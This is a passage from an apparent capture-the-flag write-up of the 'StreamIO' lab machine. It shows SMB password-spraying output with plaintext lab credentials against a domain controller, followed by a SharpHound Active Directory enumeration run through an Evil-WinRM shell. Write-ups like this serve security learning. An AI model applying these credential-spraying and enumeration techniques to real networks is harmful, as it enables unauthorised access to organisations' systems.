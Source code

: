 ```
SMB         10.10.11.158    445    DC               [-] streamIO.htb\nikk37:JDg0dd1s@d0p3cr3@t0r STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\yoshihide:JDg0dd1s@d0p3cr3@t0r STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [+] streamIO.htb\JDgodd:JDg0dd1s@d0p3cr3@t0r 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\admin:n1kk1sd0p3t00:) STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\nikk37:n1kk1sd0p3t00:) STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\yoshihide:n1kk1sd0p3t00:) STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\admin:paddpadd@12 STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\nikk37:paddpadd@12 STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\yoshihide:paddpadd@12 STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\admin:password@12 STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\nikk37:password@12 STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\yoshihide:password@12 STATUS_LOGON_FAILURE 
```

Seems like the login is successful for the user `JDgodd`. Unfortunately the user `JDgodd` does not have a permission over Winrm. Now I'll get `SharpHound.exe` on the target and perform further enumeration.
###### `SharpHound to collect the data`
```
*Evil-WinRM* PS C:\ProgramData> .\SharpHound.exe
2024-09-11T06:55:22.9033030-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2024-09-11T06:55:23.0750099-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-09-11T06:55:23.1062941-07:00|INFORMATION|Initializing SharpHound at 6:55 AM on 9/11/2024
2024-09-11T06:55:23.2625066-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for streamIO.htb : DC.streamIO.htb
2024-09-11T06:55:23.2937699-07:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-09-11T06:55:23.4968990-07:00|INFORMATION|Beginning LDAP search for streamIO.htb
2024-09-11T06:55:23.5437659-07:00|INFORMATION|Producer has finished, closing LDAP channel
2024-09-11T06:55:23.5593852-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-09-11T06:55:53.7000997-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 34 MB RAM
2024-09-11T06:56:12.5125030-07:00|WARNING|[CommonLib LDAPUtils]Exception in LDAP loop for (&(objectclass=trusteddomain)(securityidentifier=S-1-5-21-1470860369-1569627196-4264678630)) and Default Domain
System.DirectoryServices.Protocols.DirectoryOperationException: The server is busy.
   at System.DirectoryServices.Protocols.LdapConnection.ConstructResponse(Int32 messageId, LdapOperation operation, ResultAll resultType, TimeSpan requestTimeOut, Boolean exceptionOnTimeOut)
   at System.DirectoryServices.Protocols.LdapConnection.SendRequest(DirectoryRequest request, TimeSpan requestTimeout)
   at SharpHoundCommonLib.LDAPUtils.<QueryLDAP>d__34.MoveNext()
2024-09-11T06:56:12.7781289-07:00|INFORMATION|Consumers finished, closing output channel
2024-09-11T06:56:12.8250096-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2024-09-11T06:56:13.0593900-07:00|INFORMATION|Status: 97 objects finished (+97 1.979592)/s -- Using 42 MB RAM
2024-09-11T06:56:13.0593900-07:00|INFORMATION|Enumeration finished in 00:00:49.5769777
2024-09-11T06:56:13.1531692-07:00|INFORMATION|Saving cache with stats: 57 ID to type mappings.
 58 name to SID mappings.
```